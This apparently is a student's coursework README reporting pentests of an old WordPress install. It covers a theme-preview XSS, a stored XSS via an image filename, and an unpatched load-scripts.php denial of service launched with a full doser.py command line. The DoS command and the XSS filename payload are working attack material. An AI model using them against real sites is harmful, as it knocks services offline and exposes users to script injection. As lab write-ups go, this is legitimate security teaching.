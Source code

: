 # Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1.Legacy Theme Preview Cross-Site Scripting (XSS)
  - [ ] Summary: One of the callback functions remove the potential for JavaScript to be executed, it removes "onclick='", but continues to run the request without the "onclick='" function. We can use "onmouseover" after the "onclick=" function is removed, allowing us to use XSS. You do have to be an admin to be able to run this, but if you can get the admin to click a malicious link beforehand, it will work.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Once you have your script ready, post it as a comment on any post on a WordPress page. Once the comment is posted, either scroll up for the script to be activated, or refresh the page and it will activate. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: WordPress contains a feature that lets a browser load multiple JS/CSS files with a single script (uses load-scripts.php)
                 To prevent DoS attacks, WordPress has protected against a user asking for the same module multiple times in a single                      request. However, if you ask it to load ALL the JS modules, it proceeds with the request, with a response that is 4 MB                    data sent in 2.2 seconds. A python script is written to repeat this requst of ALL the modules, and results in a DoS                        causing the server to become unreachable. 
    - Vulnerability types: DoS - Denial of Service
    - Tested in version: 4.2
    - Fixed in version: Unpatched
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Download the python script from https://github.com/quitten/doser.py, and run the following command: 
  ```python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999``` The script is now running, and the WordPress site should be unreachable. If you want to stop the script, either close the terminal window or terminate the script using CTRL + C.
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/load-scripts.php)
3 n . WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: This is a stored XSS exploit which uses an image. You insert JavaScript into the name of a JPG file, upload it to your WordPress media library, open up the attachment page of the picture, and the script runs once the broken image icon is clicked. The reason you have to save the image to your library and open it up is because it is a stored XSS exploit. The script only runs once someone clicks the broken image link.
    - Vulnerability types: Stored XSS
    - Tested in version: 4.0
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: You can download any image as a jpg, make the filename ```name<img src=a onclick=alert('string')>.jpg```. Once you have this file downloaded, log onto WordPress as an admin, click "Media" on the left side of the page, and add the picture you made earlier to your library. Click the library again to see your picture uploaded, click on it, click "view attachment page" at the bottom of the page, click the broken image icon, and your XSS will pop up on the screen.  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
